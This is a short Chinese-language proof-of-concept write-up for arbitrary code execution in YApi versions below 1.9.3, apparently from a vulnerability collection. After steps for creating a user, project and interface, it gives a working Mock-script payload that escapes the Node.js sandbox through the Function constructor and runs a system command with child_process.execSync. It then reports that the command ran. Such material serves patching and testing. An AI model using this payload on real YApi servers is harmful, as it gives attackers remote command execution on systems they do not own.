 # 任意代码执行
## 影响版本
YApi < 1.9.3  
网站底部有显示版本号，如果没有的话，去assets.js里面看
## POC
1. 首页创建用户
2. 添加项目  
![](img/addProject.png)
![](img/addProject2.png)
3. 添加接口  
![](img/addInterface.png)
![](img/addInterface2.png)
4. 设置Mock
![](img/setMock.png)
poc:  
```shell
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child\_process").execSync("whoami").toString()
```
5. 访问Mock地址
![](img/getshell.png)
命令执行成功